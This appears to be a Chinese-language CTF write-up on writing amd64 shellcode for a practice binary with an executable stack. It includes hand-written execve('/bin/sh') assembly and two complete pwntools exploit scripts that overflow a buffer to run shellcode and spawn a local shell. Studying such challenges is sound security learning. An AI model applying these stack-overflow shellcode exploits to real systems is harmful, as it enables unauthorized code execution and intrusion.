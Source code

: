 # 【3】shellcode 的编写

> 这次尝试写 shellcode 与利用工具生成 shellcode

[题目链接](https://pan.baidu.com/s/1xfGWKGKwVqgGVzrc95zgjA?pwd=2333) 找 `blog3_blog3` 文件夹

## 题目信息

### checksec

![image-20221126145840867](E:\Pictures\markdown\image-20221126145840867.png)

栈上可写可执行（执行 **shellcode** 的最佳条件），没有 **canary**

### elf

![image-20221126150002506](E:\Pictures\markdown\image-20221126150002506.png)

题目执行后信息如图，选择一项直接输入 **payload**，

1. 直接使用 **pwnlib.shellcraft.sh()** 创建 **shellcode**

	![image-20221126150225849](E:\Pictures\markdown\image-20221126150225849.png)

2. 利用现有的条件手动编写 **shellcode**

	![image-20221126150259644](E:\Pictures\markdown\image-20221126150259644.png)

## 题解

### 1. shellcraft.sh()

题目很明显给了充足的位置来写 **shellcode**，直接调用 **pwntool** 即可

`shellcode = asm(shellcraft.amd64.sh(), arch='amd64')`

这里 **shellcode** 的长度为 48 byte，实测能成功执行完的条件为 `可以 read 的长度 > buf + 16（最少，不考虑其他变量和 canary，64 位） > shellcode 长度 + 26（考虑到 shellcode 中还会有栈的消长）`

### 2. 手动编写 shellcode

使用 **shellcraft.sh()** 对可写入区域有着比较严格的条件，这里给出一个利用 **rbp** 给 **execve()** 函数传参的手写 **shellcode**，

> 要执行 `execve("/bin/sh", [0], 0)`，至少需要完成几个条件：
>
> 1. rdi = ['/bin/sh']
> 2. rsi = [0]
> 3. rdx = 0
> 4. rax = 59 (0x3b)
> 5. syscall

编写的 **shellcode** 如下：

```python
shellcode = '''
xor rdx, rdx
push rdx
mov rsi, rsp
push rbp	/* 这里正好利用了 rbp 寄存器来传 /bin/sh 值*/
mov rdi, rsp
mov rax, 59
syscall
'''
str_bin_sh = 0x68732f2f6e69622f	# 这个就是 "/bin/sh" 字符串的 byte 值
shellcode = asm(shellcode, arch='amd64')
payload = shellcode + b'a' * (0x20 - len(shellcode)) + p64(str_bin_sh) + p64(bin_stack_top)
```

## EXP

### 1. shellcraft.sh()

```python
# -*- coding: utf-8 -*-

'''
[*] '/home/wkyuu/Desktop/temp/blog3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
'''

from pwn import *
import pwn

p64 = pwn.p64
u64 = pwn.u64

context(log_level='debug')
fileName = './blog3'
p = process(fileName)
elf = ELF(fileName)

def logger(msg, value=None, type='info'):  # type True for value
    if type == 'info':
        log.info(
            '================================ {} ================================\n'.format(msg))
    else:
        log.success('# {} => {}\n'.format(msg, value))
        
# rop
logger('rop')
p.sendlineafter(b'choose: \n', b'1')
p.recvuntil(b'your return address should be: ')
bin_stack_top = int(p.recv(14), 16)
shellcode = asm(shellcraft.amd64.sh(), arch='amd64')
payload = shellcode + b'a' * (0x58 - len(shellcode)) + p64(bin_stack_top)
p.sendlineafter(b'\n', payload)

p.interactive()
```

### 2. 手动编写 shellcode

```python
# -*- coding: utf-8 -*-

'''
[*] '/home/wkyuu/Desktop/temp/blog3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
'''

from pwn import *
import pwn

p64 = pwn.p64
u64 = pwn.u64

context(log_level='debug')
fileName = './blog3'
p = process(fileName)
elf = ELF(fileName)


def logger(msg, value=None, type='info'):  # type True for value
    if type == 'info':
        log.info(
            '================================ {} ================================\n'.format(msg))
    else:
        log.success('# {} => {}\n'.format(msg, value))


# rop
logger('rop')
p.sendlineafter(b'choose: \n', b'2')
p.recvuntil(b'return to stack: ')
bin_stack_top = int(p.recv(14), 16)

str_bin_sh = 0x68732f2f6e69622f
shellcode = '''
xor rdx, rdx
push rdx
mov rsi, rsp
push rbp
mov rdi, rsp
mov rax, 59
syscall
'''

shellcode = asm(shellcode, arch='amd64')
payload = shellcode + b'a' * \
    (0x20 - len(shellcode)) + p64(str_bin_sh) + p64(bin_stack_top)
p.sendlineafter(b'\n', payload)

p.interactive()
```

